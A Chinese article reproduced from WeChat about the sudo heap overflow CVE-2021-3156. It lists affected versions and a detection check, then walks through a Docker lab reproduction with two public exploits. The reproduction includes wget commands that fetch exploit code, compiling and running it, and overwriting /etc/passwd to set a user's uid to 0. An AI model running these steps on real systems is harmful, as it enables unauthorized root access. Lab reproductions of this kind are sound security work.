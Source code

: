 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/fiV8_QLBBFJ6wcVaVgSGuw)

1. 漏洞简介
=======

1 月 26 日，Sudo 发布安全通告，修复了一个类 Unix 操作系统在命令参数中转义反斜杠时存在基于堆的缓冲区溢出漏洞。当 sudo 通过 -s 或 -i 命令行选项在 shell 模式下运行命令时，它将在命令参数中使用反斜杠转义特殊字符。但使用 -s 或 -i 标志运行 sudoedit 时，实际上并未进行转义，从而可能导致缓冲区溢出。因此只要存在 sudoers 文件（通常是 /etc/sudoers），攻击者就可以使用本地普通用户利用 sudo 获得系统 root 权限。目前漏洞细节已公开，请受影响的用户尽快采取措施进行防护。

2. 影响范围
=======

Sudo 1.8.2 - 1.8.31p2  
Sudo 1.9.0 - 1.9.5p1  
不受影响版本：sudo =>1.9.5p2

3. 检测方法
=======

非 root 执行`sudoedit -s /`  
若返回以 “sudoedit：” 开头的错误，则当前系统可能存在安全风险。  
![](https://mmbiz.qpic.cn/mmbiz_png/rm5v4tsm2fSUblHNDJaStP7IE0tMI4nFCTmVEbejl0vuC4g3zZgtSdMlruRshRBOCK8qjOjTgYvr8icB7aT2GaQ/640?wx_fmt=png)

不受影响的系统将显示以 “usage：” 开头的错误

4. 利用复现
=======

4.0 测试环境搭建 docker-ubuntu.20.4+sudo-1.8.31
-----------------------------------------

docker 拉环境  
`docker pull manishfoodtechs/xfcefulldesktop_ubuntu20.4`  
`docker run -it manishfoodtechs/xfcefulldesktop_ubuntu20.4 /bin/bash`  
sudo 版本  
`sudo --version`  
![](https://mmbiz.qpic.cn/mmbiz_png/rm5v4tsm2fSUblHNDJaStP7IE0tMI4nFNJFBQ5q47vOHot4yZewoxiaTBOYbr1S89ww270dzSJV2hsSY3BxPEoQ/640?wx_fmt=png)

系统版本  
`lsb_release -a`  
![](https://mmbiz.qpic.cn/mmbiz_png/rm5v4tsm2fSUblHNDJaStP7IE0tMI4nFa5NgQdhP7CkOCEXPWeB9KlQGiaXcG7WllQhL6lxoY523dUOzctqsVZA/640?wx_fmt=png)

新建 test 测试用户  
`useradd test`  
`passwd test`

4.1 stong 的 exp
---------------

https://github.com/stong/CVE-2021-3156

`su test`  
`cd /tmp`  
宿主机下 poc，python 起 http 服务分享给测试环境  
`git clone https://github.com/stong/CVE-2021-3156.git`  
`python3 -m http.server 80`  
docker 内下载宿主机分享的`exploit.c`  
`wget http://192.168.146.231/exploit.c`  
`gcc ./exploit.c`  
![](https://mmbiz.qpic.cn/mmbiz_png/rm5v4tsm2fSUblHNDJaStP7IE0tMI4nFS8nXZaz5JEuX3yV9M5hvTg4RKZtZ2ehuVjaG1O1wR6dkxtLuFam6nA/640?wx_fmt=png)

`cp /etc/passwd kanpasswd`  
把 kanpasswd 中的 test 用户 id 和组 id 换为 0  
`vim kanpasswd`  
![](https://mmbiz.qpic.cn/mmbiz_png/rm5v4tsm2fSUblHNDJaStP7IE0tMI4nFfHqhia0fevq2CtRbW5PzqlckicGx269icHnf5KOic5ZgxXzliaMQ70okJGw/640?wx_fmt=png)

`./a.out /etc/passwd kanpasswd`  
![](https://mmbiz.qpic.cn/mmbiz_png/rm5v4tsm2fSUblHNDJaStP7IE0tMI4nFjpCr4aB8HXUgey9dAu38HKhFPYFog4vGkjDQfzKt2kOyw1vTKzTdEw/640?wx_fmt=png)  
![](https://mmbiz.qpic.cn/mmbiz_png/rm5v4tsm2fSUblHNDJaStP7IE0tMI4nFRLIhhcKg5J8ZIG6ayDibBNG373WoR1GbzJEH0wfK7rWFkklZXXrd6Gg/640?wx_fmt=png)

在重新看 passwd，已经被修改了  
`cat /etc/passwd`  
![](https://mmbiz.qpic.cn/mmbiz_png/rm5v4tsm2fSUblHNDJaStP7IE0tMI4nFT1xLeYOOuoLLdueXZrrfcCvQIE9TTQrMOkgyjXWibGOhLLlVTYqNBgQ/640?wx_fmt=png)  
![](https://mmbiz.qpic.cn/mmbiz_png/rm5v4tsm2fSUblHNDJaStP7IE0tMI4nFqujBB8SELEz4hg1KUWlPGibT8hiaJh3oTmMd2PwXuAOMeHib7UdJqqKtg/640?wx_fmt=png)

需要 su 再重新切换至 test，此时 id 显示已提权，有权限看 shadow  
`su test`  
![](https://mmbiz.qpic.cn/mmbiz_png/rm5v4tsm2fSUblHNDJaStP7IE0tMI4nFDgCgXeO6PLxxSUqF7ia9dbcib2sdK2lZk8MAfibmwLkEicW6Xhdt6n4Z7A/640?wx_fmt=png)

4.2 haxx.in 的 exp
-----------------

https://haxx.in/CVE-2021-3156_nss_poc_ubuntu.tar.gz

`su test`  
`cd /tmp`  
`wget https://haxx.in/CVE-2021-3156_nss_poc_ubuntu.tar.gz`  
`tar xvf CVE-2021-3156_nss_poc_ubuntu.tar.gz`  
`cd CVE-2021-3156`  
`make`  
![](https://mmbiz.qpic.cn/mmbiz_png/rm5v4tsm2fSUblHNDJaStP7IE0tMI4nF304nzchbBjp5jDRRGibibY9KwL6HVqvCLgfpDicdqPfg0ZLvqao0rtPyw/640?wx_fmt=png)

`./sudo-hax-me-a-sandwich`  
![](https://mmbiz.qpic.cn/mmbiz_png/rm5v4tsm2fSUblHNDJaStP7IE0tMI4nFtRWNn1NFTXibUPFZkld58R3YMQTrbQW2rSdNecWO92tsibOVdYa0wnpg/640?wx_fmt=png)

`id`  
`./sudo-hax-me-a-sandwich 0`  
![](https://mmbiz.qpic.cn/mmbiz_png/rm5v4tsm2fSUblHNDJaStP7IE0tMI4nFKGXRzUtnjm2Yy0rCBYiaRVaA54IYmKvWmpv2Viao85cONOOeCdGTGoJA/640?wx_fmt=png)

5. 参考
=====

[https://mp.weixin.qq.com/s/x9Q4xsoEGsK1Kv_1AbHxaQ](https://mp.weixin.qq.com/s?__biz=MzIzNjE4MTE0OA==&mid=2247484247&idx=1&sn=be2881c09da67ab5f88eb49d9a0e852f&scene=21#wechat_redirect)  
https://xie1997.blog.csdn.net/article/details/113268374  
[https://mp.weixin.qq.com/s/IzmWZojdkorKc5qGu01Jcw](https://mp.weixin.qq.com/s?__biz=MzIzOTIwNjczNw==&mid=2247483996&idx=1&sn=e1b7b3c9d67cc0623cfde5558f74be6a&scene=21#wechat_redirect)